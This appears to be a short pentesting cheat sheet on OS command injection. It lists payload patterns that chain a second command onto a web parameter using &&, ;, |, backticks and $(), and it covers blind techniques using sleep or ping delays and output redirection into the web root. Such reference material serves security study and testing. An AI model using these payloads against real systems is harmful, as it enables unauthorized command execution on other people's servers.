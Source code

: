 

# summary:
* [zero proctection](#zero-proctection)
* [zero proctection with multiple parameter](#zero-proctection-with-multiple-parameter)
* [blind injection with time delay](#blind-injection-with-time-delay)
* [blind injection with redirection](#blind-injection-with-redirection)
* [source](#source)


# zero proctection

Usually you can inject the payload in the vulnerable field directly :

```
With GET request
/?myparam=CMD

With POST request play with burp or write a script.
myparam=CMD

```
replace CMD by whatever command you want :
id,ls,whoami,dir(windowd),...


# zero proctection with multiple parameter

You can try to escape/add a command to the previous argument : 

```
 && CMD &&
 & CMD & 
 ;CMD;
 |CMD|
 ||CMD|| 

```
replace CMD by whatever command you want :
id,ls,whoami,dir(windowd),...


To perform command injection on linux system you can use also backticks or dollar character :
```
`CMD` 
$(CMD)

```
replace CMD by whatever command you want :
id,ls,whoami,dir(windowd),...


We can also use # caracter to comment out what is following our command.
ex: 
23 && ls #   => everything which follow # will not be executed

# blind injection with time delay


In some case you will not receive the output of your command, in this case you can try to play with command involving time.
You can use command like :
"sleep 5" : sleep 5 second 
or 
"ping -c 20 127.0.0.1" : send 20 icmp packets to the loopback address



# blind injection with redirection

redirect command out in a directory that you have read/write access.
You can try default directory like: 
/var/www/html 
or try to find files,pictures and find if there are absolute path (these directories should have read/write permission)


# source

https://portswigger.net/web-security/os-command-injection